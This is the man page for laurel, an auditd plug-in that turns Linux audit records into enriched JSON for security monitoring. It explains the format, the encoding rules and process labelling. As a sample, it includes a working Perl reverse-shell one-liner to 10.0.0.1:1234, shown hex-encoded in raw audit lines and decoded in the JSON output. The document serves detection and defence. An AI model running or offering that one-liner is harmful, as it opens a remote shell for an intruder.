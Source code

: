 ```yaml
---
title: laurel - About
section: 7
header: System Administration Utilities
footer: laurel 0.7.3
---
```


# NAME
laurel-about - High-level description of `laurel(8)` design, rationale, features

# DESCRIPTION

## Problem statement

While logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful for host-based security monitoring, the log format is not well-suited for at-scale analysis in a SIEM. 

### Format issues

- All non-trivial events are split across multiple lines that have to be joined together using a message identifier, but current search-centric log analysis systems are quite limited when it comes to join operations.
- Files and program executions are logged via `PATH` and `EXECVE` elements. The character set for strings is a limited subset of ASCII no escaping mechanism exists: If a string contains bytes that have special meaning in the format (even space or quote characters), the entire string is hex-encoded.
- Argument lists are preserved in `EXECVE` records, but with an `a0="…"`, `a1="…"`, `a2="…"`, `a3="…"` naming scheme, they are not easily accessible.
- Long command lines may be spread across multiple `EXECVE` event lines.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values.

### Missing context

Most audit events are based on either system calls or file operations. Whether or not some suspicious actions should be considered harmful, largely depends on the context in which it takes place. For example, one would not expect most web applications to use `netcat` to connect to hosts on the Internet, but an administrator who is logged and over SSH who uses `netcat` to debug network issues should raise fewer suspicions. Unfortunately, the only context that can be added for Linux audit events "keys" using the `-k` parameter of `auditctl(8)`.

### Example

Spawning a simple Perl reverse-shell one-liner creates the following 7-line audit log entry that nicely demonstrates some of these  shortcomings:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

## Solution

In addition to (or instead of) writing log files, `auditd(8)` can pass log lines to one or multiple plug-ins for further processing, see `auditd-plugins(5)`. `laurel(8)` is intended to be run as such a plug-in. It reads the audit logs from standard input, parses them, and writes a modified form of the audit log to a different log file.

### Output format

Log records carrying the same event ID (the `msg=audit(TIME:SEQUENCE):` part) are collected into coherent events and output as a JSON Lines-based log format. Most importantly, hex-encoded strings are output as regular JSON strings. [RfC8259] mandates that "text exchanged between systems that are not part of a closed ecosystem MUST be encoded using UTF-8", therefore any bytes or byte sequences that are not valid UTF-8 are percent-encoded as described in [RfC3986]. Numbers are parsed as decimal, octal, or hexadecimal values and output in an unambiguous format. List data (`SYSCALL.{a0 … a3}` and `EXECVE.a*`) are turned into JSON arrays. `PROCTITLE.proctitle` is split at NULL bytes and transformed into a list.

[RfC8259]: https://datatracker.ietf.org/doc/html/rfc8259 'The JavaScript Object Notation (JSON) Data Interchange Format'

[RfC3986]: https://datatracker.ietf.org/doc/html/rfc3986 'Uniform Resource Identifier (URI): Generic Syntax'

### Structure

Every audit log line produced by _LAUREL_ is one single JSON object consisting of key/value pairs that contains at least an `ID` field.

- `SYSCALL`, `EXECVE`, `CWD`, `PROCTITLE` fields point to single JSON objects.
- `PATH`, `SOCKADDR` fields point to lists of JSON objects.

Every other kernel-produced audit message not mentioned above results in field pointing to a list of JSON objects. Details may change after the list of kernel audit message types has been reviewed.

### Encoding of invalid UTF-8 strings and binary data

- Most byte values that represent printable ASCII characters are reproduced as-is (but are subject to JSON string escaping rules).
- Bytes that map to non-printable ASCII characters (less than 32/0x20; 127/0x7f) are percent-encoded.
- Byte values that map to `%` (37/0x25) and `+` (42/0x2b) are percent-encoded.
- Byte values outside of the ASCII range (greater than 127/0x7f) are reproduced as-is if they are part of a valid UTF-8 sequence. Otherwise, they are percent-encoded.

Handling of special Unicode characters may change in the future.

### Translation / Enrichment

If `auditd(8)` has been configured with `log_format=ENRICHED`, it translates some numeric values in the original audit data to strings. Per convention, it adds translated information using all-caps versions of the keys. For example, 

    arch=c000003e syscall=59 uid=0
	
get translated to

    ARCH=x86_64 SYSCALL=execve UID="root"

by `auditd(8)`. All information that is added to records by `laurel(8)`  follows the same convention, i.e. keys are turned into all-caps. While `laurel` can be configured to perform the same translations as `auditd(8)`, it can perform other enrichments, including interpreted scripts, collecting specific environment variables, or container information for processes that are run within container environments.

If possible, translations of numeric values should be performed by `laurel` rather than by `auditd`. Note: If `laurel` is built with musl libc, it won't be able to resolve users and groups using GNU libc's Name Service Switch. However, since musl libc  supports the glibc's name service caching daemon, installing and enabling `nscd` makes NSS-based user and group available.

### Adding Context: Process Relationships, Labels

While processing audit records `laurel(8)` tracks processes and remembers `comm`, `exe`, and the event ID associated with the latest `execve` event of a process. Processes that are tracked can be assigned labels through various mechanisms and those labels can optionally be propagated to child processes.

Mechanisms by which labels can be assigned include:
- using the key from an audit event (the `-k` option of `auditctl(8)`)
- regular expression applied to the executable path (`SYSCALL.exe` field)
- regular expression applied to part of the command line (`EXECVE.ARGV` field)
- regular expression applied to the script path (`SYSCALL.SCRIPT` field, enriched)

The process tracking information can be used to enrich fields containing process ids, including `SYSCALL.{pid, ppid}` and `OBJ_PID.opid` associated with `ptrace` attach or `kill` syscalls.

### Volume reduction: Filtering out events

To reduce the high volume of events, it is possible to filter out events by key or by process label. Events that are filtered are still used for process tracking.

### Example

The log lines from the Perl reverse shell execution above are processed by `laurel(8)` into the following JSON log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root","PPID":{"EVENT_ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}}
```

## Audit rule set advice

For process tracking to work properly, the kernel should be configured to log all `execve`-like calls and all `fork`-like for processes that are expected to use `fork` without `execve`. See `laurel-audit-rules(7)` for details.

# SEE ALSO
`laurel(8)`, `auditd(8)`, `audit.rules(7)`, `laurel-audit-rules(7)`

# AUTHORS
- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>
